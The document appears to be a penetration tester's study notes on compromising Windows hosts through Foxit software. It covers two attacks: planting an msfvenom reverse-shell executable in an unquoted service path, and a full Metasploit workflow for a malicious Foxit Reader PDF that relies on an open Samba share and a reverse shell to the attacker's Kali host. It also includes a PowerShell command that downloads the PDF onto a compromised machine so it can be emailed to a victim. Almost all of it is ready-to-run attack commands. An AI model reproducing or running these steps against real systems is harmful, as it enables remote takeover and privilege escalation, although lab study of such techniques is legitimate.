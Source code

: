 #### Unquoted Service Path
https://www.exploit-db.com/exploits/36390

In winpeas.txt, we see the service name right above the unquoted service path:

![[Pasted image 20220321181308.png]]

```command prompt - windows 
sc qc FoxitCloudUpdateService
```

We see that are no quotes around the bin path line.

![[Pasted image 20220320180823.png]]

We can now start testing where in this path we have write privileges.  Tested an echo command in Program Files x86,  we get access denied.  Tested in Foxit Software, we are successful at writing out test file. 

```command prompt - windows
echo "test" > test.txt
```

We place our malicious Foxit.exe file in the Foxit Reader directory.

```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=80 -f exe -o Foxit.exe
```

![[4._File Transfers#Certutil]]

![[___.Misc Commands#Restart host]]


#### PDF EXE

[https://prog.world/we-exploit-the-foxit-reader-vulnerability-and-bypass-the-digital-signature-on-the-example-of-the-neoquest-2020-task/](https://prog.world/we-exploit-the-foxit-reader-vulnerability-and-bypass-the-digital-signature-on-the-example-of-the-neoquest-2020-task/)

```bash - kali
sudo apt install samba
```

```bash - kali
sudo mkdir /mnt/files
```

```bash - kali
sudo chmod 777 /mnt/files
```

Now you need to configure the samba server. To do this, open the configuration file /etc/samba/smb.conf and paste the following text there:

```bash - kali
mousepad /etc/samba/smb.conf
```

```bash - kali
[global]  
security = user  
workgroup = MYGROUP  
server string = Samba  
guest account = nobody  
map to guest = Bad User

[share]  
path = /mnt/files  
browseable = Yes  
guest ok = Yes  
writeable = Yes  
public = yes  
```

```bash - kali
sudo service smbd restart
```

```bash - kali
sudo service nmbd restart
```

```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=80 --arch x86 -f exe -o /mnt/files/exploit.exe
```

```bash - kali
sudo chmod 777 /mnt/files/exploit.exe
```

```bash - kali
sudo msfdb run
```

```bash - kali
use exploit/windows/fileformat/foxit_reader_uaf
```

```bash - kali
set LHOST $KALI
```

```bash - kali
set EXENAME exploit.exe
```

```bash - kali
set SHARE share
```

```bash - kali
run
```

```bash - kali
sudo cp /root/.msf4/local/test.pdf .
```


![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

![[rlwrap]]

Download update.pdf on already compromised machine (if you have one), then use email app to send to victim:
```powershell - target
powershell -c "(new-object System.Net.WebClient).DownloadFile('$KALI:80/test.pdf','C:/Users/$USER/Documents/tools/update.pdf')"
```